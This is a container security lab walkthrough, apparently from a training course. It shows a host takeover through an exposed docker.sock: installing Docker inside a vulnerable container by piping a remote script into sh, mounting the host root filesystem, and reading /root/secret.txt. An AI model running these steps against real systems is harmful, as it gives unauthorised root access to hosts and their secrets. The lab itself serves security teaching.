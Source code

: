 ## Docker Daemon Direct Access

###### A malicious user who gains access to a container where the `docker.sock` of host machine is exposed, can gain access to the host machine.

##### Step 1:

* Open Terminal

	![](img/Open-Terminal.png)

##### Step 2:

*  **cd** into  `Labs/3.0.0-Container-Attacks/3.2.0`

    ```commandline
    cd Labs/3.0.0-Container-Attacks/3.2.0
    ```
##### Step 3:

* Run `docker run -d -v /var/run/docker.sock:/var/run/docker.sock --name vul_flask abhaybhargav/vul_flask` to start a docker container.

    ```commandline
    root@we45:~/Labs/3.0.0-Container-Attacks/3.2.0# docker run -d -v /var/run/docker.sock:/var/run/docker.sock --name vul_flask abhaybhargav/vul_flask
    1681e86d567eaa2b7344cff0535819fffe8f3a786b4b768be3c95d9b40a4e71d
    ```
      
    ![](img/docker-run.png)
 
##### Step 4:   

* Run `docker ps` to view, all running containers.

    ```commandline
    root@we45:~/Labs/3.0.0-Container-Attacks/3.2.0# docker ps
    CONTAINER ID        IMAGE                    COMMAND             CREATED              STATUS              PORTS               NAMES
    1681e86d567e        abhaybhargav/vul_flask   "python app.py"     About a minute ago   Up About a minute   5050/tcp            vul_flask/tcp            vul_flask
    ```
     
    ![](img/docker-ps.png)
    
##### Step 5:   

* Run `docker exec -it vul_flask bash` to exec into a running container.

    ```commandline
    root@we45:~/Labs/3.0.0-Container-Attacks/3.2.0# docker exec -it vul_flask bash
    root@1681e86d567e:/apps# 
    ```
    ![](img/docker-exec.png)

##### Step 6:

* Install docker-engine by running `apt-get update && apt-get install wget -y && wget -qO- https://get.docker.com | sh`

    ```commandline
    root@1681e86d567e:/apps# apt-get update && apt-get install wget -y && wget -qO- https://get.docker.com | sh
    Get:1 http://security.debian.org jessie/updates InRelease [44.9 kB]
    Ign http://deb.debian.org jessie InRelease          
    Get:2 http://deb.debian.org jessie-updates InRelease [145 kB]
    Get:3 http://deb.debian.org jessie Release.gpg [2420 B]                               
    Get:4 http://deb.debian.org jessie Release [148 kB]              
    Get:5 http://deb.debian.org jessie-updates/main amd64 Packages [23.0 kB]          
    Get:6 http://deb.debian.org jessie/main amd64 Packages [9098 kB]       
    Get:7 http://security.debian.org jessie/updates/main amd64 Packages [663 kB]
    Fetched 10.1 MB in 21s (480 kB/s)                                                                                                                            
    Reading package lists... Done
    Reading package lists... Done
    Building dependency tree       
    Reading state information... Done
    The following packages will be upgraded:
      wget
    1 upgraded, 0 newly installed, 0 to remove and 66 not upgraded.
    Need to get 496 kB of archives.
    After this operation, 362 kB disk space will be freed.
    Get:1 http://deb.debian.org/debian/ jessie/main wget amd64 1.16-1+deb8u5 [496 kB]
    Fetched 496 kB in 1s (288 kB/s)
    debconf: delaying package configuration, since apt-utils is not installed
    (Reading database ... 21636 files and directories currently installed.)
    Preparing to unpack .../wget_1.16-1+deb8u5_amd64.deb ...
    Unpacking wget (1.16-1+deb8u5) over (1.16-1+deb8u4) ...
    Setting up wget (1.16-1+deb8u5) ...
    # Executing docker install script, commit: 36b78b2
    + sh -c apt-get update -qq >/dev/null
    + sh -c apt-get install -y -qq apt-transport-https ca-certificates curl >/dev/null
    debconf: delaying package configuration, since apt-utils is not installed
    + sh -c curl -fsSL "https://download.docker.com/linux/debian/gpg" | apt-key add -qq - >/dev/null
    + sh -c echo "deb [arch=amd64] https://download.docker.com/linux/debian jessie edge" > /etc/apt/sources.list.d/docker.list
    + [ debian = debian ]
    + [ jessie = wheezy ]
    + sh -c apt-get update -qq >/dev/null
    + sh -c apt-get install -y -qq --no-install-recommends docker-ce >/dev/null
    debconf: delaying package configuration, since apt-utils is not installed
    + sh -c docker version
    Client:
     Version:           18.06.1-ce
     API version:       1.38
     Go version:        go1.10.3
     Git commit:        e68fc7a
     Built:             Tue Aug 21 17:25:03 2018
     OS/Arch:           linux/amd64
     Experimental:      false
    
    Server:
     Engine:
      Version:          18.06.1-ce
      API version:      1.38 (minimum version 1.12)
      Go version:       go1.10.3
      Git commit:       e68fc7a
      Built:            Tue Aug 21 17:23:24 2018
      OS/Arch:          linux/amd64
      Experimental:     false
    If you would like to use Docker as a non-root user, you should now consider
    adding your user to the "docker" group with something like:
    
      sudo usermod -aG docker your-user
    
    Remember that you will have to log out and back in for this to take effect!
    
    WARNING: Adding a user to the "docker" group will grant the ability to run
             containers which can be used to obtain root privileges on the
             docker host.
             Refer to https://docs.docker.com/engine/security/security/#docker-daemon-attack-surface
             for more information.
    ```

##### Step 7:

*  Once docker is installed, run `docker run -ti -v /:/hostFS/ ubuntu:16.04 /bin/bash`

    ```commandline
    root@1681e86d567e:/apps# docker run -ti -v /:/hostFS/ ubuntu:16.04 /bin/bash
    root@b412be8326b5:/#
    ```

##### Step 8:

* Run `cd /hostFS/root/` to access the toot directory.

    ```commandline
    root@b412be8326b5:/# cd /hostFS/root/    
    ```
    
##### Step 9:  

* Run `ls` to check the secret.txt file inside a container.

    ```commandline
    root@b412be8326b5:/hostFS/root# ls
    secret.txt
    ``` 
    
##### Step 10:

* Run `cat secret.txt` to view the content of the file.

```commandline
root@b412be8326b5:/hostFS/root# cat secret.txt 
secret
``` 
**Note:** Malicious user now has complete access to the root Filesystem of the host machine.

##### Step 11:

* Run `exit` to exit from the Malicious container.

    ```commandline
    root@b412be8326b5:/hostFS/root# exit
    exit
    ```

##### Step 12:

* Run `exit` to exit from the container.

    ```commandline
    root@1681e86d567e:/apps# exit
    exit
    ```

##### Step 13:  
 
* Run `docker stop vul_flask` to stop the running container.

    ```commandline
    root@we45:~/Labs/3.0.0-Container-Attacks/3.2.0# docker stop vul_flask
    vul_flask
    ```
        
    ![](img/docker-stop.png)  
    
##### Step 14:   

* Run `docker rm vul_flask` to remove stopped container.

    ```commandline
    root@we45:~/Labs/3.0.0-Container-Attacks/3.2.0# docker rm vul_flask
    vul_flask
    ```
    ![](img/docker-rm.png)
